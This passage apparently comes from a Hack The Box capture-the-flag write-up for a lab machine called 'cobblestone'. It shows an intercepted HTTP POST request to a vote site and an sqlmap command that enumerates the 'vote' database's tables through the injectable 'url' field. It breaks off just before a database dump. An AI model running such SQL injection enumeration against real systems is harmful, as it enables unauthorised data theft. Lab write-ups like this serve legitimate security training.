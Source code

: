 
>Note that `request.txt` is the request intercepted from burpsuite while voting for a website.
{: .prompt-warning }

``` 
POST /suggest.php HTTP/1.1
Host: vote.cobblestone.htb
Content-Length: 23
Cache-Control: max-age=0
Origin: http://vote.cobblestone.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://vote.cobblestone.htb/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=2g3hf8jia64thhp0vnlgpahoi4
Connection: keep-alive

url=10.10.14.194%3A9443
```
{: file="request.txt"}

So we're into something. The field is indeed vulnerable. To test that even more: 

```bash 
sqlmap -r request.txt -p url -D vote --tables --batch
```

![sqlmap2](assets/htb-cobble-11.png)

## User Flag 

Poking around the databse, we can dump this: 
